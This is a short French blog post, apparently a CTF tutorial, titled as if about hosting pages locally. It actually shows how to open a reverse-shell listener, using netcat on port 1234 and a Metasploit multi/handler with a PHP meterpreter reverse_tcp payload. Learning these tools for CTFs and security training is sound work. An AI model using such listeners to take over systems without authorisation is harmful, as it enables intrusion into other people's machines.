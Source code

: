 ```yaml
---
layout: post
section-type: post
title: Hébergement de pages en local sous linux
category: exploitation web
tags: [ 'reverse shell', 'Se mettre sous écoute sur un port', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234 en utilisant le payload php
      msfconsole
			use exploit/multi/handler
			set payload php/meterpreter/reverse_tcp
			set LHOST @IP_kali
			set LPORT 1234
			run
  </code></pre> <br/>
     
---------------------------------------------

			
